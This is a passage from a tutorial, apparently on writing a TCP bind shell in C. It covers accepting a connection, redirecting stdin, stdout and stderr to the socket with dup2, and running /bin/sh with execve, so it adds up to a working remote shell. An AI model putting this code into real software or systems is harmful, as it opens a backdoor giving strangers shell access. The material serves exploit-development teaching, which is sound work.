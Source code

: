 #### Our C function  
```c
listen(ipv4Socket, 0);
```

### 5. Accept the incoming connections and create a new connected session
Now that our socket is listening we need to accept the incoming connections with the C function `accept()`.  
Consulting the manual page with `man 2 accept` we find that:  
```c
// the accept function takes the connection request from the listen
//  function and creates a new connected socket.
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```

We will give our `accept()` function the variable name `clientSocket`. We will use our `ipv4Socket` variable we created earlier to fulfill the `int sockfd` arguments, and set the remaining two arguments to `NULL`.   

#### Our C function
```c
int clientSocket = accept(ipv4Socket, NULL, NULL);
```

### 6. Transfer STDIN, STDOUT, STDER to the connected session
Now that we have a tcp socket listening and accepting incoming connections, we will need to pass the input, output, and error messages from the program, to the connecting client. This will allow the connecting client to input text using their keyboard, and read the output that is returned.  
We will duplicate the File Descriptors for Standard Input(0), Standard Output(1), and Stadard Error(2) to the newly created, connected socket using the dup2() function three times. We will consult the man pages for more information will `man 2 dup2`.   
```c
int dup2(int oldfd, int newfd);
```
We find that the `dup2()` function requires 2 arguements. The first arguement `int oldfd` we be fufilled using the `clientSocket` variable we created earlier. The second arguement `int newfd` will be fufilled using the number value for STDIN(0), STDOUT(1), and STDERR(2) respectively.  
#### Our three dup2 functions 
```c
dup2(clientSocket, 0);
dup2(clientSocket, 1);
dup2(clientSocket, 2);
```

### 7. Spawn a "/bin/sh" shell in the connected session
At this point we have our program listening, and accepting connections from incoming clients. Once the client connects, the input and output of our program is passed over to the connecting client. The last thing we need to do is execute a program for our client to interact with.  
We will use the C function `execve()` to execute the shell `/bin/bash`.  
Consulting the manual pages with `man 2 execve` we find:  
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
We discover that since we are not passing any additional options/flags/enviorment-settings to our `/bin/sh` program, we may set the arguments `argv[]` and `envp[]` to `NULL`. The first arguement `*filename` requires we give it the full path to our program `/bin/sh`.  
#### Our C function 
```c
execve("/bin/sh", NULL, NULL);
```
